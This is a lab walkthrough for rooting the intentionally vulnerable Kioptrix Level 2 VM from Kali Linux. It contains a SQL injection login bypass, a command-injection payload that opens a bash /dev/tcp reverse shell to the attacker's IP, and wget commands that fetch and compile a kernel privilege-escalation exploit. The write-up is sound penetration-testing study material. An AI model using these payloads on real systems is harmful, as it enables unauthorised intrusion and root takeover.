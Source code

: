 # Summary
This document will walk you through the procedure (step-by-step) to root the machine Kioptrix Level 2.
The Goal is to gain "root" access in the target machine.

**WARNING:** This walk through is to be used for learning/educational purposes only.

**NOTE:**
Kioptrix Level 2 is a vulnerable VM, which will be our target machine.
Kali Linux (2020) is the VM being used to carry out the pentesting, a.k.a. the attacker machine.
Both VMs are being hosted on VM Workstation.

# WalkThrough

**Step 1:**
Turn on the Target Machine. Run netdiscover on local machine (Attacker's) on interface eth0
> netdiscover -i eth0

Target Machine IP found to be `192.168.1.250`

**Step 2:**
Run NMap to scan target machine for open ports. 
> nmap -sC 192.168.1.250

Ports found open: 22, 80, 111, 443, 3306

**Step 3:**
Visit `http://192.168.1.250/index.php` on the browser. We come across this login page.
![remote_sysadmin_login.png](remote_sysadmin_login.png)

We try the `admin:admin` combination for the `username:password` and it doesn't work.
Attempting a SQL Injection, we set the username as `admin' or '1'='1` and see if it works.
We are through, to the next page

**Step 4:**
The next page looks like this.

![admin_webconsole.png](admin_webconsole.png)

The source code for this page says that it is a  `pingit` feature, where the machine IP mentioned in the input field would be pinged and the browser would receive a response.

We enter `localhost` as the input and we receive the following response.
![localhost_response.png](localhost_response.png)

**Step 5:**
Next step is to spawn a reverse shell to acquire prolonged shell access to the target machine. We can concatenate shell commands one after another to achieve this. Visit `http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` to find the one-liner reverse shell command.

The command is `bash -i >& /dev/tcp/<attacker's IP>/<attacker's Port> 0>&1`

**Step 6:**
On the local machine, we use netcat to listen to port 443
> nc -lvp 443

Also, in the input field we write `localhost; bash -i >& /dev/tcp/192.168.1.200/443 0>&1`, and hit Enter.

![reverse_shell.png](reverse_shell.png)

**Step 7:**
Once we have acquired Shell access, we see that current user is `apache`. In order to get root access, we should launch a privilege escalation attack. To determine which exploit to use, we find the kernel information of the target machine.

![target_kernel.png](target_kernel.png)

We search for available exploits and find one available at `https://www.exploit-db.com/exploits/9542`. We download it using the following command.
> wget https://www.exploit-db.com/exploits/9542 -O exploit.c

The exploit is downloaded on the attacker's machine.

**Step 8:**
Since the exploit cannot be downloaded directly onto the target machine, we will initiate a Simple HTTP server on the attacker's machine.

![httpserver_init.png](httpserver_init.png)

And on the target machine, we run the following command to download the exploit.
> wget http://192.168.1.200:8000/exploit.c 

**Step 9:**
Once the exploit is downloaded onto the target machine, it is compiled using the following command.
> gcc -o exploit exploit.c

Once compiled, we run the exploit file, and get root access.

![exploit_run.png](exploit_run.png)

Target machine is now ROOTED!!!








